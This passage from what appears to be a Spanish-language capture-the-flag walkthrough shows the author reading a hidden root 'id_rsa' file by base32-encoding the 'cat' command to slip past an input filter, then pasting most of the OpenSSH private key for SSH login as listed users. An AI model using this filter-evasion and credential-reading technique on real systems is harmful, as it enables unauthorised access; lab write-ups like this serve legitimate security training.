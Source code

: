 Tenemos una llave que pertenece a **root**
```bash
.id_rsa
```

Ahora listamos su contenido:
```bash
echo -n "cat .id_rsa" | base32

MNQXIIBONFSF64TTME====== # Comando
```

Ya que podemos ver el contido no necesitamos descargarlo, Lo copiamos directamente y lo usaremos con llave **id_rsa** para estos posibles usuarios:
```bash
luisillo
maria
root
```

archivo en nuestra maquina atacanate: **id_rsa**
```bash
-----BEGIN OPENSSH PRIVATE KEY-----
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
```